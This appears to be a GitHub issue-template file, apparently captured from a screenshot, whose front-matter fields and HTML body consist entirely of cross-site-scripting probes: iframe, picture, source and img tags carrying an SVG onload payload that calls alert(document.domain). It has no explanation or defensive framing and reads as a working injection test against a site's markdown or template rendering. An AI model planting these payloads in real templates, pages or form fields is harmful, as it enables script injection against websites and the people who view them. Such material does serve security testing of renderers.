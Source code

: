 ```yaml
---
name: <iframe  src="(g)[<svg/onload=alert(document.domain)>]"></iframe>
about: <iframe  src="(g)[<svg/onload=alert(document.domain)>]">
title: ''
labels: <iframe src="<svg/onload=alert(document.domain)>">
assignees: ''

---
```


<figure class="video_container">
<iframe width="425" height="350" frameborder="0" scrolling="no" marginheight="0" marginwidth="0" src="(g)[<svg/onload=alert(document.domain)>]" style="border: 1px solid black"></iframe>
</figure>
<figure class="video_container">
<iframe src="(g)[<svg/onload=alert(document.domain)>]"></iframe>
</figure>

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="(g)[<svg/onload=alert(document.domain)>].png">
  <source media="(prefers-color-scheme: light)" srcset="(g)[<svg/onload=alert(document.domain)>].png">
  <img alt="/(g)[<svg/onload=alert(document.domain)>]/" src="(g)[<svg/onload=alert(document.domain)>].png">
</picture>
